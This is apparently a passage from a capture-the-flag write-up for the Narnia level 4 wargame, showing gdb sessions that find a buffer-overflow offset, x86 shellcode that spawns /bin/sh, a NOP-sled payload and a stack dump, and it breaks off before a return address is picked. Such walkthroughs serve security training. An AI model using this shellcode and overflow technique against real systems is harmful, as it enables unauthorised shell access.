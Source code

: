 This one is similar to the **level 2** however, we don't have any output or result from the program. Here, the **buffer** variable is **256** bytes long and again, no boundary check. Let's find where we overflow the return address...

```nasm
$ gdb narnia4

(gdb) set disassembly-flavor intel
(gdb) run $(python -c 'print 264 * "A" + 4 * "B"')
Starting program: /narnia/narnia4 $(python -c 'print 264 * "A" + 4 * "B"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

So, **256** bytes of garbage and **4** more bytes to overwrite the return address. To exploit this one I used the following shellcode :

```text
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

Let's find a return address. Here, I placed a return address right after the *strcpy()* call :

```nasm
(gdb) break *main+121
Breakpoint 1 at 0x8048524

(gdb) run $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia4 $(python -c 'print 236 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 4 * "B"')

Breakpoint 1, 0x08048524 in main ()
(gdb) x/100x $esp+600
0xffffd6e4:	0x00000000	0x00000009	0x080483b0	0x0000000b
0xffffd6f4:	0x000036b4	0x0000000c	0x000036b4	0x0000000d
0xffffd704:	0x000036b4	0x0000000e	0x000036b4	0x00000017
0xffffd714:	0x00000001	0x00000019	0xffffd74b	0x0000001a
0xffffd724:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffd734:	0xffffd75b	0x00000000	0x00000000	0x00000000
0xffffd744:	0x00000000	0xb9000000	0x47bfa236	0xde88977b
0xffffd754:	0x969dbe24	0x69e65cf5	0x00363836	0x00000000
0xffffd764:	0x00000000	0x616e2f00	0x61696e72	0x72616e2f
0xffffd774:	0x3461696e	0x90909000	0x90909090	0x90909090
0xffffd784:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd794:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7a4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7b4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7c4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7d4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7e4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd804:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd814:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd824:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd834:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd844:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd854:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd864:	0x50c03190	0x732f2f68	0x622f6868	0xe3896e69
```
